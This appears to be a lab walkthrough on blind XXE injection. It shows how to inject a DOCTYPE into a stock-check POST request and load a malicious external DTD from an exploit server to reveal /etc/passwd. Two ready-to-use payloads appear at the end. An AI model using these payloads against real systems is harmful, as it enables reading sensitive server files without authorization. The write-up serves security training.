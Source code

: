 *This information is only for the purposes of education and skills development.*

**Objective**
Display contents of `/etc/passwd` file in Collaborator using malicious DTD or Document Type Definition file. 

**Blind XXE**
- XML External Entity Injection or XXE injection vulnerability allows attacker to interfere with an application's processing of external data that is in XML format. 
- Document Type Definition or DTD file defines rules for XML documents.
- In blind XXE, no values associated with external entities are returned in response.

**Point of Entry**
- On any product page, the *Check Stock* function issues a POST request.
- This request is our point of entry because it includes stockCheck element which handles XML data.

**Barrier to entry** 
- As no XML is present in response, XML parsing is considered out-of-band meaning that a separate channel of communication is in use.

**Bypassing Barrier to Entry**
- Payload one will be hosted on exploit server as a DTD file. 
- View exploit and copy page URL as this is the DTD URL.
- Start intercept and check stock to issue related POST request. 
- Between XML declaration and `stockCheck` element, add payload number two including the DTD URL. 
- Forward edited request to reveal contents of `/etc/passwd`.

**Template Payload**
1. `<!ENTITY % file SYSTEM "file:///etc/passwd"> <!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>"> %eval; %exfil;`
2. `<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>